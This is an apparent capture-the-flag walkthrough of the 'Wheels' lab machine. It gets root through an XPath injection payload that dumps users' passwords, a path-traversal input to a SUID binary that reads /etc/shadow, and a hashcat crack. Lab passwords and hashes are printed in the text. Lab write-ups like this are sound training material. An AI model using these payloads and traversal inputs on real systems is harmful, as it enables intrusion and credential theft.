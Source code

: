 # Network Enumeration

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/wheels]                                                                                                         
└─$ nmap -r -v --min-rate=1500 -p- -oN 001-nmap-tcp-full 192.168.183.202      
PORT      STATE    SERVICE                                       
22/tcp    open     ssh                                                     
80/tcp    open     http 
```

Access to port 80.

![image-20230817231238710](../Images/image-20230817231238710.png)

Can see a carservice web page.

The footer is a email address related to official website.

<img src="../Images/image-20230817231314740.png" alt="image-20230817231314740" style="zoom:80%;" />

Try to use this email register a user.

<img src="../Images/image-20230817231339476.png" alt="image-20230817231339476" style="zoom:80%;" />

It can be login. Then went to the employee portal.

<img src="../Images/image-20230817231457098.png" alt="image-20230817231457098" style="zoom:80%;" />

Can find 3 users. Check the burpsuite, looks like a xml path.

<img src="../Images/image-20230817231751417.png" alt="image-20230817231751417" style="zoom:80%;" />

Try to use xpath injection, use the `')]/password | a[contains(a,'` to injection.

<img src="../Images/image-20230817231852827.png" alt="image-20230817231852827" style="zoom:80%;" />

Then get the users password.

So bob's password is `Iamrockinginmyroom1212`, `alice:iamarabbitholeand7875`, `john:johnloveseverontr8932`

try to login with ssh.

<img src="../Images/image-20230817232032128.png" alt="image-20230817232032128" style="zoom:80%;" />

Bob is good.

# PE

## Information Collection

### Basic information

<img src="../Images/image-20230817232444752.png" alt="image-20230817232444752" style="zoom:80%;" />

### Active Ports

<img src="../Images/image-20230817232530657.png" alt="image-20230817232530657" style="zoom:80%;" />

### Users

<img src="../Images/image-20230817232542653.png" alt="image-20230817232542653" style="zoom:80%;" />

### Useful software

<img src="../Images/image-20230817232556323.png" alt="image-20230817232556323" style="zoom:80%;" />

### DB Password

<img src="../Images/image-20230817232720207.png" alt="image-20230817232720207" style="zoom:80%;" />

Login to MySQL to get the Password.

```mysql
MariaDB [wheels]> select * from users;
+----+----------+--------------------------------------------------------------+-----------------------+---------+
| id | username | password                                                     | email                 | account |
+----+----------+--------------------------------------------------------------+-----------------------+---------+
|  1 | bob      | $2a$12$XyDbORzX3TFxsdX2OJZLo.01jNZMrpi1iU3XqpW4IeqLbbUUBAGAm | bob@wheels.service    | admin   |
|  2 | gurana   | $2y$10$Im2ZQH9neNAUuM1LeUcNO.Hu.9p1qP2lQw59OtZKB.tmPrpRXoKmi | gurana@wheels.service | admin   |
|  3 | info     | $2y$10$4RhCUzCCUEL44dHqQO9lZuKjDgtALV37zTXXJV7KEx2bP0A5dL2zy | info@wheels.service   | admin   
3 rows in set (0.000 sec)

```

### SUID

<img src="../Images/image-20230817233046669.png" alt="image-20230817233046669" style="zoom:80%;" />

Found a unknow suid application.

Use it to open `/etc/shadow`

```bash
bob@wheels:~$ /opt/get-list


Which List do you want to open? [customers/employees]: ../../../etc/shadow #employees
Opening File....

root:$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:19123:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
sshd:*:18634:0:99999:7:::
systemd-coredump:!!:18634::::::
lxd:!:18634::::::
usbmux:*:18864:0:99999:7:::
bob:$6$9hcN2TDv4v9edSth$KYm56Aj6E3OsJDiVUOU8pd6hOek0VqAtr25W1TT6xtmGTPkrEni24SvBJePilR6y23v6PSLya356Aro.pHZxs.:19123:0:99999:7:::

```

Use `hashcat` to crack the password.

<img src="../Images/image-20230817233841252.png" alt="image-20230817233841252" style="zoom:80%;" />

The root's password is `$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:highschoolmusical`

Finally get root.

<img src="../Images/image-20230817233940206.png" alt="image-20230817233940206" style="zoom:80%;" />